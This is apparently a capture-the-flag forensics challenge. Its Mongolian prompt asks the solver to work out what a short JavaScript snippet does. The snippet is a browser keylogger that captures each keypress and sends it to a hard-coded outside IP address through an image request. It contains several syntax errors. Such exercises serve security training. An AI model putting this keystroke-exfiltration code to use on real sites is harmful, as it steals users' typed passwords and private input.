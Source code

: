**Baby Forensic (10pts)**

Доор кодыг шинжилгээ хийн ямар үйлдэл хийж байгааг тодорхойл.

    <script LANGUAGE="JavaScript">
    document.captureEvents(Event.KEYPRESS);
    document.onkeypress = captureKeystrokes;
    function captureKeystrokes(e) {
    var key = string.fromcharcode(e.which);
    var img = new imageO;
    var src = "http://192.155.221.7/index.htm" +
    "keystroke=" + escape(key);
    img.src = src;
    return true;}
    <script>| 
